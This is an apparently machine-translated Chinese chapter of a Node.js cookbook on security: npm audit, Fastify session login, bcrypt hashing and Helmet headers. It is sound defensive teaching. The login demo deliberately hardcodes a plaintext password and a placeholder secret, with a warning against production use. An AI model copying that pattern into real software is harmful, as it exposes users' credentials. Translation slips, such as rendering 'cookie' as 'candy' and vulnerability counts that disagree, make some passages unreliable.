

# 处理安全问题

在整本书中，我们学习了如何使用 Node.js 来构建应用程序。就像所有软件一样，你必须采取某些预防措施来确保你构建的应用程序是安全的。

首先，你应该确保你已经采用了包含安全修复的任何 Node.js 版本。因此，在可能的情况下，你应该目标是给定 Node.js 版本线的最新版本。

本章将涵盖 Node.js 网络应用程序安全的一些关键方面。后面的菜谱将展示一些常见的网络应用程序攻击，包括 **跨站脚本**（ **XSS** ）和 **跨站请求伪造**（ **CSRF** ）攻击。它们将展示如何防止和减轻这些攻击的风险。

本章将涵盖以下菜谱：

+   检测依赖项漏洞

+   使用 Fastify 进行身份验证

+   使用 Helmet 强化头部

+   预测恶意输入

+   防止 JSON 污染

+   防止 XSS

+   防止 CSRF

# 技术要求

你应该安装了 Node.js，最好是 Node.js 22 的最新版本，并且可以使用你选择的编辑器和浏览器。

在整个菜谱中，我们将从 **npm** 注册表中安装模块——因此，需要互联网连接。

本章菜谱的代码可在本书的 GitHub 仓库中找到，网址为 [`github.com/PacktPublishing/Node.js-Cookbook-Fifth-Edition`](https://github.com/PacktPublishing/Node.js-Cookbook-Fifth-Edition)，在 *第九章* 目录下。

# 检测依赖项漏洞

在整本书中，我们利用了 **npm** 注册表中的模块来为我们构建的应用程序打下基础。我们学习了如何庞大的模块生态系统使我们能够专注于应用程序逻辑，而不必反复重新发明常见的解决方案。

这个生态系统是 Node.js 成功的关键。然而，它确实会导致我们的应用程序中出现大型、嵌套的依赖树。我们不仅必须关注我们自己编写的应用程序代码的安全性，还必须考虑我们依赖树中包含的代码的安全性。即使是成熟且流行的模块和框架也可能包含安全漏洞。

在这个菜谱中，我们将演示如何检测项目依赖树中的漏洞。

## 准备工作

对于这个菜谱，我们将创建一个名为 **audit-deps** 的目录，以便我们可以安装一些 Node.js 模块：

```js
$ mkdir audit-deps
$ cd audit-deps
$ npm init --yes
```

我们不需要添加任何额外的代码，因为我们将专注于学习如何使用终端审计依赖项。

## 如何操作…

在这个菜谱中，我们将从 **npm** 注册表中安装一些模块，并对它们进行漏洞扫描：

1.  首先，让我们安装一个旧版本的 **express** 模块。我们故意选择了一个已知存在漏洞的旧版本来演示如何审计我们的依赖项。这个版本的 Express.js 不建议在生产应用程序中使用：

    ```js
    $ npm install express@4.16.0
    added 8 packages, removed 3 packages, changed 14 packages, and audited 52 packages in 674ms
    3 high severity vulnerabilities
    To address all issues, run:
      npm audit fix
    Run `npm audit` for details.
    ```

    注意到 **npm** 输出检测到 Express.js 此版本中的八个已知漏洞。

1.  如输出所示，运行 **$ npm audit** 命令以获取更多详细信息：

    ```js
    $ npm audit
    ```

1.  观察以下截图所示的 **$ npm audit** 命令的输出。输出列出了个别漏洞，以及更多信息：


图 9.1 – express@4.16.0 的 npm audit 输出

1.  我们可以按照控制台输出中指定的 GitHub 链接导航到特定漏洞的咨询页面。这将打开一个网页，详细说明漏洞概述和修复措施：



图 9.2 – 示例 npm 漏洞咨询

1.  我们可以使用 **$ npm audit fix** 命令尝试自动修复漏洞。这将尝试将任何依赖项更新到修复版本：

    ```js
    $ npm audit fix
    npm WARN audit-deps@1.0.0 No description
    npm WARN audit-deps@1.0.0 No repository field.
    + express@4.17.1
    added 8 packages from 10 contributors, removed 4 packages and updated 17 packages in 1.574s
    fixed 9 of 9 vulnerabilities in 46 scanned packages
    ```

1.  现在，当我们再次运行 **$ npm audit** 命令时，我们将得到以下输出，表明在我们的模块依赖项树中不再检测到任何已知漏洞：

    ```js
    $ npm audit
    found 0 vulnerabilities
    ```

通过这样，我们已经学会了如何使用 **$ npm audit** 来扫描依赖项中的漏洞。

## 它是如何工作的…

**$ npm audit** 命令自 **npm** 版本 6 起就已经可用。该命令会提交我们应用程序中依赖项的报告，并将其与已知漏洞数据库进行比较。**$ npm audit** 命令将对直接、开发、捆绑和可选依赖项进行审计。然而，它不会审计 peer 依赖项。该命令需要同时存在 **package.json** 文件和 **package-lock.json** 文件；否则，它将失败。当使用 **$ npm install** 命令安装包时，审计将自动运行。

许多组织认为 **$ npm audit** 是一种预防措施，用于保护他们的应用程序免受已知安全漏洞的侵害。因此，将 **$ npm audit** 命令添加到您的 **持续集成** ( **CI** ) 测试中是很常见的。当发现漏洞时，**$ npm audit** 命令会报告错误代码 **1**；这个错误代码可以用来表示测试失败。

在这个菜谱中，我们使用了 **$ npm audit fix** 命令来自动将我们的依赖项更新到修复版本。此命令只会将依赖项升级到较新的次要或补丁版本。

如果漏洞仅在新的大版本中修复，**npm** 将输出警告，表明修复可通过 **npm audit fix --force** 获取，如下面的截图所示：


图 9.3 – 显示破坏性变更解决的 npm audit 输出

需要更新到新主要版本的修复将不会由 **$ npm audit fix** 命令自动修复，因为您可能需要更新应用程序代码以适应依赖项中的破坏性更改。您可以通过使用 **$ npm audit fix --force** 命令来覆盖此行为并强制 **npm** 更新所有依赖项，即使它们包含破坏性更改。然而，在破坏性更改的情况下，审查单个模块漏洞并逐个手动更新模块可能是明智的。

在某些情况下，可能没有可用的依赖项修补版本。在这种情况下，**npm** 将通知您需要进行手动审查。在手动审查期间，尝试确定您的应用程序是否容易受到漏洞的影响是值得的。某些漏洞可能仅适用于某些 API 的使用，因此如果您在应用程序中没有使用这些 API，您可能可以排除特定的漏洞。如果漏洞适用于您的应用程序且没有可用的依赖项修补版本，您应考虑在可能的情况下，在您的应用程序的 **node_modules** 中修补它。实现这一点的常见方法是从 **npm** 使用 **patch-package** ([`www.npmjs.com/package/patch-package`](https://www.npmjs.com/package/patch-package)) 模块。

重要提示

通常，保持您应用程序的依赖项尽可能最新是值得的，以确保您拥有最新的可用错误和安全修复。例如，**Dependabot** ([`dependabot.com/`](https://dependabot.com/)) 等工具可以通过在 GitHub 上自动化更新来帮助保持您的依赖项最新。

注意，**npm audit** 通过将您的依赖项树与已知漏洞数据库进行比较来工作。**npm audit** 返回没有已知漏洞并不意味着您的依赖项没有漏洞——您的树中可能存在未报告或未知的漏洞。还有提供模块依赖项漏洞审计服务的商业服务。其中一些，如 **Snyk** ([`snyk.io/`](https://snyk.io/))，维护自己的弱点与漏洞数据库，这些数据库可能包含不同的已知问题集，以审计您的依赖项。

使用 **npm audit** 时还有其他选项可供选择，以便您可以根据自己的需求进行定制：

+   **--audit-level <level>** : 允许您指定 **npm audit** 应报告的最小漏洞级别。这些级别包括 **info**、**low**、**moderate**、**high** 和 **critical**。

+   **--dry-run** : 模拟修复漏洞的操作，而不应用任何更改。

+   **--force** : 强制更新有漏洞的依赖项，绕过某些检查，例如依赖项兼容性检查。此选项应谨慎使用，因为它可能导致依赖项冲突或在你项目中引入破坏性更改。

+   **--json** : 以 JSON 格式输出审计结果。

+   **--package-lock-only** : 将审计限制在 **package-lock.json** 或 **npm-shrinkwrap.json** 文件中定义的项目依赖项，而不需要实际安装。

+   **--no-package-lock** : 在审计过程中忽略项目的 **package-lock.json** 或 **npm-shrinkwrap.json** 文件。当您想审计 **node_modules** 目录的状态时，这可能很有用。

+   **--omit** 和 **--include** : 允许您配置在审计过程中要排除或包含的依赖类型（开发、可选或同行依赖）。

## 还有更多...

除了使用 **npm audit** 之外，您还可以利用 GitHub 的 Dependabot 来增强您项目的安全性并保持依赖项更新。Dependabot 自动化检查漏洞并创建拉取请求以更新您的依赖项。它持续监控您的项目依赖项，并在检测到任何漏洞时提醒您。Dependabot 可以自动打开拉取请求以更新过时的依赖项到最新版本。

通过将 Dependabot 集成到您的 GitHub 仓库中，您可以确保您的项目与最新的安全补丁和更新保持同步，从而降低潜在漏洞的风险。请参阅 [`docs.github.com/en/code-security/dependabot`](https://docs.github.com/en/code-security/dependabot) 了解 GitHub 关于启用和使用 Dependabot 的指南。

## 参见

+   **npm** 的 **npm audit** 文档：[`docs.npmjs.com/auditing-package-dependencies-for-security-vulnerabilities`](https://docs.npmjs.com/auditing-package-dependencies-for-security-vulnerabilities)

+   *第五章* 中的 *使用 Node.js 模块* 食谱

# 使用 Fastify 进行身份验证

许多网络应用程序都需要登录系统。通常，网站的用户有不同的权限，为了确定他们可以访问哪些资源，他们必须首先通过身份验证进行识别。

这通常是通过设置会话来实现的，会话是用户和设备之间的临时信息交换。会话使服务器能够存储特定于用户的信息，这些信息可用于管理访问并在多个请求之间维护用户的状态。

在本食谱中，我们将为 Fastify 服务器实现一个身份验证层。请参阅 *第六章* 以获取有关 Fastify 的更多信息。

## 准备工作

让我们从创建一个 Fastify 服务器开始：

1.  创建一个名为 **fastify-auth** 的项目目录以进行工作，并使用 **npm** 初始化项目。我们还将创建一些文件和子目录，我们将在本食谱的后续部分中使用它们：

    ```js
    $ mkdir fastify-auth
    $ cd fastify-auth
    $ npm init --yes
    $ mkdir routes views
    $ touch server.js routes/index.js views/index.ejs
    ```

1.  我们还需要安装几个模块：

    ```js
    $ npm install fastify @fastify/view @fastify/formbody ejs
    ```

1.  将以下代码添加到 **server.js** 文件中。这将配置一个初始的 Fastify 服务器，我们将对其进行扩展：

    ```js
    const fastify = require('fastify')({ logger: true });
    const path = require('path');
    const view = require('@fastify/view');
    const fastifyFormbody = require('@fastify/formbody');
    const indexRoutes = require('./routes/index');
    fastify.register(fastifyFormbody);
    fastify.register(view, {
      engine: {
        ejs: require('ejs')
      },
      root: path.join(__dirname, 'views')
    });
    fastify.register(indexRoutes);
    const start = async () => {
      try {
        await fastify.listen({ port: 3000 });
        fastify.log.info(`Server listening on
          ${fastify.server.address().port}`);
      } catch (err) {
        fastify.log.error(err);
        process.exit(1);
      }
    };
    start();
    ```

1.  将以下内容添加到 **routes/index.js** 中以创建一个基础路由器，该路由器将处理 **/** 上的 HTTP **GET** 请求：

    ```js
    async function routes(fastify, options) {
        fastify.get('/', async (request, reply) => {
          return reply.view('index.ejs');
        });
      }
    module.exports = routes;
    ```

1.  将以下内容添加到 **views/index.ejs** 中以创建一个 **嵌入式 JavaScript**（**EJS**）模板。目前，这只是一个简单的欢迎页面模板：

    ```js
    <html>
        <head>
            <title>Authentication with Fastify</title>
        </head>
        <body>
            <h1>Authentication with Fastify</h1>
            <% if (typeof user !== 'undefined' && user) {
              %>
            <p>Hello <%= user.username %>!</p>
            <p><a href="/auth/logout">Logout</a></p>
            <% } else { %>
            <p><a href="/auth/login">Login</a></p>
            <% } %>
        </body>
    </html>
    ```

1.  使用以下命令启动服务器，并在浏览器中导航到 **http://localhost:3000**：

    ```js
    $ node server.js
    ```

您应该会看到一个标题为 **Authenticating with Fastify** 的网页。使用 *Ctrl* + *C* 停止服务器。

现在我们有一个简单的 Fastify 服务器，我们可以开始实现身份验证层。

## 如何做到这一点...

在这个菜谱中，我们将使用 **@fastify/cookie** 和 **@fastify/session** 模块将登录系统添加到我们的 Fastify 服务器中：

1.  首先安装模块：

    ```js
    $ npm install @fastify/cookie @fastify/session
    ```

1.  我们将创建一个单独的路由器来处理身份验证，以及一个包含我们的 HTML 登录表单的 EJS 模板。现在让我们创建这些文件：

    ```js
    $ touch routes/auth.js views/login.ejs
    ```

1.  现在，让我们使用 EJS 模板创建我们的 HTML 登录表单。HTML 表单将有两个字段：**用户名** 和 **密码**。此模板期望传递一个名为 **fail** 的值。当 fail 值为 **true** 时，将渲染 **登录失败** 的消息。将以下代码添加到 **views/login.ejs**：

    ```js
    <html>
      <head>
        <title>Authentication with Fastify - Login</title>
      </head>
      <body>
        <h1>Authentication with Fastify - Login</h1>
        <% if (fail) { %>
        <h2>Login Failed.</h2>
        <% } %>
        <form method="post" action="login">
          Username: <input type="text" name="username" />
          Password: <input type="password" name="password"
            />
          <input type="submit" value="Login" />
        </form>
      </body>
    </html>
    ```

1.  现在，我们需要构建我们的身份验证路由器。我们将在 **routes/auth.js** 文件中完成此操作。身份验证路由器将包含 **/login** 和 **/logout** 端点的路由处理程序。**/login** 端点的 HTTP **POST** 处理程序将接收并解析表单数据（用户名和密码）以验证用户凭据。将以下内容添加到 **routes/auth.js** 中以创建身份验证路由器：

    ```js
    const users = [{ username: 'beth', password:
      'badpassword' }];
    async function routes (fastify, options) {
      fastify.get('/login', async (request, reply) => {
        return reply.view('login.ejs', { fail: false });
      });
      fastify.post('/login', async (request, reply) => {
        const { username, password } = request.body;
        const user = users.find((u) => u.username ===
          username);
        if (user && password === user.password) {
          request.session.user = { username: user.username };
          await request.session.save();
          return reply.view('index.ejs', { user:
            request.session.user });
        } else { return reply.view('login.ejs', { fail:
          true }); }
      });
      fastify.get('/logout', async (request, reply) => {
        request.session.destroy((err) => {
          if (err) { return reply.send(err); }
          else { return reply.redirect('/'); }
        });
      });
    }
    module.exports = routes;
    ```

1.  接下来，我们需要更新我们的 **routes/index.js** 文件，以便我们可以将用户数据从会话传递到 EJS 模板：

    ```js
    async function routes (fastify, options) {
      fastify.get('/', async (request, reply) => {
        const user = request.session.user;
        return reply.view('index.ejs', { user: user });
      });
    }
    module.exports = routes;
    ```

1.  现在，将 **@fastify/cookie** 和 **@fastify/session** 的导入添加到 **server.js** 文件中的其他导入旁边：

    ```js
    ...
    const view = require('@fastify/view');
    const fastifyFormbody = require('@fastify/formbody');
    const fastifyCookie = require('@fastify/cookie');
    const fastifySession = require('@fastify/session');
    ...
    ```

1.  导入 **auth** 路由器：

    ```js
    const indexRoutes = require('./routes/index');
    const authRoutes = require('./routes/auth');
    ...
    ```

1.  使用以下配置注册插件：

    ```js
    fastify.register(fastifyCookie);
    fastify.register(fastifySession, {
      secret: 'a secret with minimum length of 32
        characters',
      cookie: {
        httpOnly: true
      },
      saveUninitialized: false,
      resave: false
    });
    ```

1.  注册 **authRoutes**：

    ```js
    fastify.register(indexRoutes);
    fastify.register(authRoutes, { prefix: '/auth' });
    ```

1.  使用以下命令启动服务器：

    ```js
    $ node server.js
    ```

1.  在浏览器中导航到 **http://localhost:3000**。预期会看到以下网页：


图 9.4 – 描述“使用 Fastify 进行身份验证”的网页

1.  点击 **登录**；您将被导向 HTML 登录表单。提供一个随机的用户名和密码，然后点击 **登录**。由于这不符合我们的硬编码值，我们预计会看到 **登录失败** 的消息。

1.  让我们尝试硬编码的值。提供一个用户名 **beth** 和密码 **badpassword**，然后点击 **登录**。登录过程应该是成功的。您将被重定向回 **/** 端点，在那里将显示 **Hello** **beth!** 消息。

1.  最后，让我们尝试注销。点击 **注销** 链接。这应该将您重定向回相同的端点，但 **Hello beth!** 消息将被移除，因为会话已经结束。

这个配方介绍了 **@fastify/cookie** 和 **@fastify/session** 模块，以及我们如何使用它们来构建简单的登录功能。现在，让我们看看它是如何工作的。

## 它是如何工作的...

在这个配方中，我们使用 **@fastify/cookie** 和 **@fastify/session** 模块构建了一个登录系统。

首先，我们在 Fastify 应用程序中（在 **server.js** 文件中）导入并注册了 **@fastify/session** 插件。这个插件将一个会话对象注入到每个请求对象中。在用户认证之前，会话值将是一个空对象。

在注册 **@fastify/session** 插件时，我们提供了以下配置选项：

+   **密钥**：用于签名会话 ID 糖果，确保其完整性并防止篡改。出于安全考虑，它必须至少有 32 个字符长。

+   **Cookie.httpOnly**：配置会话糖果。请注意，**httpOnly: true** 使得糖果对客户端 JavaScript 不可访问，增强了安全性。

+   **SaveUninitialized**：防止将未修改的会话保存到存储中，减少存储使用并提高性能。

+   **Resave**：防止重新保存未更改的会话，减少对会话存储的无需要写操作。

完整的配置选项列表可在 **@fastify/session** API 文档中找到，网址为 [`github.com/fastify/session?tab=readme-ov-file#api`](https://github.com/fastify/session?tab=readme-ov-file#api)。

在这个配方的演示应用程序中，网页上的登录超链接将用户重定向到 **/auth/login** 端点。这个端点的路由处理器是在一个单独的认证路由器（**routes/auth.js**）中声明的。这个路由渲染包含 HTML 登录表单的 **views/login.ejs** 模板。

当用户在表单中输入用户名和密码并点击 **提交** 时，浏览器将值编码并设置为请求体。我们的 HTML 表单将方法设置为 HTTP **POST**（**method="post"**），这指示浏览器在表单提交时发送 HTTP **POST** 请求。我们的 HTML 表单中的 **action** 属性设置为 **login**，这指示浏览器将 HTTP **POST** 请求发送到 **/** **auth/login** 端点。

在 **routes/auth.js** 中，我们为 **/login** 端点的 HTTP **POST** 请求注册了一个处理器。这个处理器从请求体中提取用户名和密码，并检查它们是否与我们的硬编码用户数组中的任何用户匹配。如果凭证有效，它将在会话中保存用户信息，并使用用户数据渲染 **index.ejs** 模板。

如果用户名和密码不匹配，我们的 HTTP **POST** **/auth/login**路由处理程序将渲染带有**{ fail : true }**值的**views/login.ejs**模板。这指示**views/login.ejs**模板渲染**登录失败**消息。

重要提示

不要在生产应用程序中以纯文本形式存储密码！你通常会验证提供的用户名和密码与存储在安全数据库中的凭据相匹配，密码以散列形式存储。请参阅此食谱中关于使用**bcrypt**散列的**There’s more…**部分。

当认证过程成功时，我们将**req.session.user**的值设置为提供的用户名，并将认证用户重定向回**/**端点。在此阶段，**@fastify/session**中间件创建一个会话标识符，并在请求上设置**Set-Cookie** HTTP 头。**Set-Cookie**头设置为会话键名和会话标识符。

**@fastify/session**插件默认使用进程内存储机制来存储会话令牌。然而，这些令牌不会过期，这意味着我们的进程将继续被越来越多的令牌填充。这最终可能导致性能下降或使我们的进程崩溃。再次强调，在生产环境中，你通常会使用会话存储。**@fastify/session**插件基于**express-session**兼容的会话存储列表，请参阅[`github.com/expressjs/session#compatible-session-stores`](https://github.com/expressjs/session#compatible-session-stores)。

当请求被重定向到**/**时，它现在已设置了**Set-Cookie** HTTP 头。**@fastify/session**中间件识别会话键名并提取会话标识符。从这个标识符中，**@fastify/session**可以查询会话存储以获取任何关联的状态。在这种情况下，状态是我们将分配给**req.session**对象的用户对象，在**auth.js**中完成。

**req.session.user**的值传递给更新的**views/index.ejs**模板。此模板包含逻辑，当存在**req.session.user**值时，它将渲染**Hello beth!**字符串。模板中的逻辑还会根据用户是否认证来在显示**登录**或**注销**链接之间切换。

点击**注销**会向**/auth/logout**端点发送 HTTP **GET**请求。此端点将**req.session**设置为**null**，结束会话并从会话存储中删除会话数据。我们的浏览器可能会继续存储并发送无效的会话 cookie，直到它过期，但由于会话存储中没有有效的匹配项，服务器将忽略会话并认为用户未认证。

## 更多内容...

以下部分将涵盖安全的会话 cookie 以及如何散列密码的简单示例。

### 安全的会话 cookie

会话 cookie 可以被标记为**Secure**属性。**Secure**属性强制浏览器不使用 HTTP 将 cookie 发送回服务器。这是为了避免**中间人攻击**（**MITM**）。在生产应用中，应使用 HTTPS 和安全的 cookie。但在开发中，使用 HTTP 更容易。

在生产环境中，通常在负载均衡器层应用 SSL 加密。负载均衡器是应用架构中的一个技术，它通过将一系列任务分配到一系列资源来提高应用的效率——例如，将登录请求分配到服务器。

我们可以配置我们的 Fastify 服务器通过 HTTP 与负载均衡器通信，但仍然使用适当的 cookie 设置支持**Secure**cookie。在生产中，cookie 的**Secure**选项应设置为 true。

### 使用 bcrypt 进行哈希

密码绝不应该以明文形式存储，而应该以哈希形式存储。密码通过**哈希函数**转换为哈希形式。哈希函数使用算法将值转换为不可识别的数据。这种转换是单向的，意味着从哈希中确定原始值是不太可能的。网站将通过将提供的密码应用于哈希函数并与存储的哈希值进行比较来验证用户的密码输入。

哈希通常与一种称为**盐化**的技术结合使用。盐化是指在生成哈希之前将一个唯一的值（称为盐）附加到密码上。这有助于防止暴力攻击，并使破解密码更加困难。

**bcrypt**（[`www.npmjs.com/package/bcrypt`](https://www.npmjs.com/package/bcrypt)）是一个流行的模块，用于在 Node.js 中哈希密码。以下示例演示了如何使用**bcrypt**模块生成带有盐的哈希：

1.  首先，创建并初始化一个名为**hashing-with-bcrypt**的目录：

    ```js
    $ mkdir hashing-with-bcrypt
    $ cd hashing-with-bcrypt
    $ npm init --yes
    $ touch hash.js validate-password.js
    ```

1.  接下来，安装**bcrypt**模块：

    ```js
    $ npm install bcrypt
    ```

1.  我们的应用程序将期望密码作为参数提供。将以下内容添加到**hash.js**中，以提取参数值：

    ```js
    const password = process.argv[2];
    ```

1.  接下来，在**hash.js**中导入**bcrypt**模块：

    ```js
    const bcrypt = require('bcrypt');
    ```

1.  现在，我们必须定义盐的轮数。在这里，**bcrypt**将使用指定的轮数生成盐。轮数越多，哈希越安全。然而，它也会使你的应用生成和验证哈希的时间更长。在这个例子中，我们将盐的轮数设置为**10**：

    ```js
    const saltRounds = 10;
    ```

1.  接下来，我们需要调用**bcrypt**模块的**hash()**方法。我们向此方法提供纯文本密码、盐的轮数以及一旦生成哈希就执行的回调函数。我们的回调将使用**conosle.log()**输出密码的哈希形式。将以下内容添加到**hash.js**中：

    ```js
    bcrypt.hash(password, saltRounds, (err, hash) => {
      if (err) {
        console.error('Error hashing password:', err);
        process.exit(1);
      } else {
        console.log(hash);
      }
    });
    ```

    在实际应用中，你会在回调函数中包含你的逻辑，以便将哈希值持久化到数据库中。

1.  使用以下命令运行程序。你应该期望生成一个唯一的哈希值：

    ```js
    $ node hash.js 'badpassword'
    $2b$10$7/156fF/0lyqzB2pxHQJE.czJj5xZjN3N8jofXUxXi.UG5X3KAzDO
    ```

    每次运行此脚本时，都会生成一个新的唯一哈希值。

1.  接下来，让我们学习如何验证密码。我们将创建一个程序，该程序期望密码和哈希值作为参数。程序将使用 **bcrypt.compare()** 方法比较密码和哈希值：

    ```js
    const password = process.argv[2];
    const hash = process.argv[3];
    const bcrypt = require('bcrypt');
    bcrypt
      .compare(password, hash)
      .then((res) => {
        console.log(res);
      })
      .catch((err) => console.error(err.message));
    ```

    注意，当密码和哈希值匹配时，**res** 将为 **true**，不匹配时为 **false**。

1.  运行 **validate-password.js** 程序。第一个参数应该是你提供给 **hash.js** 程序的相同密码。第二个参数应该是 **hash.js** 程序创建的哈希值：

    ```js
    $ node validate-password.js 'badpassword' '$2b$10$7/156fF/0lyqzB2pxHQJE.czJj5xZjN3N8jofXUxXi.UG5X3KAzDO'
    true
    ```

    注意，参数值应该用单引号括起来，以确保保留字面值。

这演示了我们可以如何使用 **bcrypt** 模块来创建哈希值，以及如何验证一个值与现有哈希值是否匹配。

## 参见

+   在 *第六章* 的 *使用钩子实现身份验证* 菜谱中

+   本章的 *防止跨站脚本攻击* 菜谱

+   本章的 *防止跨站请求伪造* 菜谱

# 使用 Helmet 加固头部

Express.js 是一个轻量级 Web 框架，因此通常为了更好地保护应用程序而采取的一些措施并没有在核心框架中实现。我们可以采取的一项预防措施是在请求上设置某些与安全相关的 HTTP 头部。有时，这被称为 *加固* 我们 HTTP 请求的头部。

**Helmet** 模块（[`github.com/helmetjs/helmet`](https://github.com/helmetjs/helmet)）提供了一个中间件，用于在我们的 HTTP 请求上设置与安全相关的头部，从而节省手动配置的时间。Helmet 将 HTTP 头部设置为合理的默认安全值，然后可以根据需要扩展或自定义。在这个菜谱中，我们将学习如何使用 Helmet 模块。

## 准备工作

我们将扩展一个 Express.js 应用程序，使其能够使用 Helmet 模块。因此，首先，我们必须创建一个基本的 Express.js 服务器：

1.  创建一个名为 **express-helmet** 的目录，并使用 **npm** 初始化项目。我们还将安装 **express** 模块：

    ```js
    $ mkdir express-helmet
    $ cd express-helmet
    $ npm init --yes
    $ npm install express
    ```

1.  创建一个名为 **server.js** 的文件：

    ```js
    $ touch server.js
    ```

1.  将以下代码添加到 **server.js** 中：

    ```js
    const express = require('express');
    const app = express();
    app.get('/', (req, res) => res.send('Hello World!'));
    app.listen(3000, () => {
      console.log('Server listening on port 3000');
    });
    ```

现在我们已经创建了一个基本的 Express.js 应用程序，我们可以继续进行完成这个菜谱的步骤。

## 如何做到这一点...

在这个菜谱中，我们将学习如何使用 Helmet 模块来加固我们的 Express.js 应用程序的 HTTP 头部：

1.  首先，启动 Express.js 网络服务器：

    ```js
    $ node server.js
    ```

1.  现在，让我们检查我们的 Express.js 应用程序返回的头部信息。我们可以使用 *cURL* 工具来完成此操作。在第二个终端窗口中，输入以下命令：

    ```js
    $ curl -I http://localhost:3000
    ```

1.  你应该会看到一个类似以下响应，列出了请求返回的 HTTP 头部信息：

    ```js
    HTTP/1.1 200 OK
    X-Powered-By: Express
    Content-Type: text/html; charset=utf-8
    Content-Length: 12
    ETag: W/"c-Lve95gjOVATpfV8EL5X4nxwjKHE"
    Date: Mon, 01 Jul 2024 02:19:46 GMT
    Connection: keep-alive
    Keep-Alive: timeout=5
    ```

    注意**X-Powered-By:** **Express**头信息。

1.  现在，让我们使用**helmet**模块开始强化这些头信息。使用以下命令安装**helmet**模块：

    ```js
    $ npm install helmet
    ```

1.  我们需要在**app.js**文件中导入**helmet**中间件。通过在**express**导入下方添加以下行来完成此操作：

    ```js
    const helmet = require('helmet');
    ```

1.  接下来，我们需要指导 Express.js 应用程序使用**helmet**中间件。在**const app = express();**行下方，添加以下内容：

    ```js
    app.use(helmet());
    ```

1.  现在，重新启动服务器：

    ```js
    $ node server.js
    ```

1.  再次发送*cURL*请求：

    ```js
    $ curl -I http://localhost:3000
    ```

1.  在这一点上，我们可以看到请求返回了许多额外的头信息：

    ```js
    HTTP/1.1 200 OK
    Content-Security-Policy: default-src 'self';base-uri 'self';font-src 'self' https: data:;form-action 'self';frame-ancestors 'self';img-src 'self' data:;object-src 'none';script-src 'self';script-src-attr 'none';style-src 'self' https: 'unsafe-inline';upgrade-insecure-requests
    Cross-Origin-Opener-Policy: same-origin
    Cross-Origin-Resource-Policy: same-origin
    Origin-Agent-Cluster: ?1
    Referrer-Policy: no-referrer
    Strict-Transport-Security: max-age=15552000; includeSubDomains
    X-Content-Type-Options: nosniff
    X-DNS-Prefetch-Control: off
    X-Download-Options: noopen
    X-Frame-Options: SAMEORIGIN
    X-Permitted-Cross-Domain-Policies: none
    X-XSS-Protection: 0
    Content-Type: text/html; charset=utf-8
    Content-Length: 12
    ETag: W/"c-Lve95gjOVATpfV8EL5X4nxwjKHE"
    Date: Mon, 01 Jul 2024 02:21:22 GMT
    Connection: keep-alive
    Keep-Alive: timeout=5
    ```

    注意，**X-Powered-By** 头信息已被移除。

通过这些，我们已经将**helmet**中间件添加到我们的 Express.js 服务器中，并观察到了它对我们请求返回的 HTTP 头信息所做的更改。

## 它是如何工作的...

**helmet**模块根据其安全默认值配置我们请求的一些 HTTP 头信息。在本例中，我们将**helmet**中间件应用于我们的 Express.js 服务器。

**helmet**模块移除了**X-Powered-By: Express**头信息，这使得发现服务器是基于 Express 变得更加困难。我们这样做的原因是为了保护攻击者尝试利用 Express.js 相关的安全漏洞，减缓他们确定应用程序中使用的服务器类型的速度。

在这一点上，**helmet**将以下头信息注入到我们的请求中，包括适当的默认值：

| **Header** | **描述** |
| --- | --- |
| **Content-Security-Policy** | 通过允许定义一个策略来控制用户代理可以加载哪些资源，从而帮助减轻 XSS 攻击 |
| **Cross-Origin-Opener-Policy** | 确保顶层文档只能与同一源文档进行交互 |
| **Cross-Origin-Resource-Policy** | 限制资源，使其只能由同一源文档访问 |
| **Origin-Agent-Cluster** | 确保文档在单独的代理集群中隔离，以防止不同源之间的数据泄露 |
| **Referrer-Policy** | 控制从网站发送的请求中包含的引用信息量 |
| **Strict-Transport-Security** | 指示浏览器仅允许使用 HTTPS 访问网站 |
| **X-Content-Type-Options** | 指示配置在**Content-Type**头信息中的 MIME 类型必须遵守 |
| **X-DNS-Prefetch-Control** | 控制 DNS 预取 |
| **X-Download-Options** | 禁用在下载时打开文件选项 |
| **X-Frame-Options** | 指示浏览器是否可以在**<frame>**、**<iframe>**、**<embed>**或**<object>** HTML 元素中渲染页面 |
| **X-Permitted-Cross-Domain-Policies** | 指示浏览器如何处理跨域请求 |
| **X-XSS-Protection** | 指示浏览器在检测到反射型 XSS 攻击时停止页面加载 |

表 9.1：Helmet 注入的 HTTP 头信息及其用途

**头盔**模块将注入的 HTTP 头设置为合理的默认安全值。然而，它们可以被自定义。例如，你可以使用以下代码手动设置**Referrer-Policy**的值为**no-referrer**头：

```js
app.use(
  helmet({
    referrerPolicy: { policy: 'no-referrer' },
  })
);
```

也可以使用**头盔**模块设置额外的 HTTP 头。有关更多信息，请参阅头盔文档（[`helmetjs.github.io/`](https://helmetjs.github.io/)）。

一些其他流行的 Web 框架也可以通过以下模块集成**头盔**中间件：

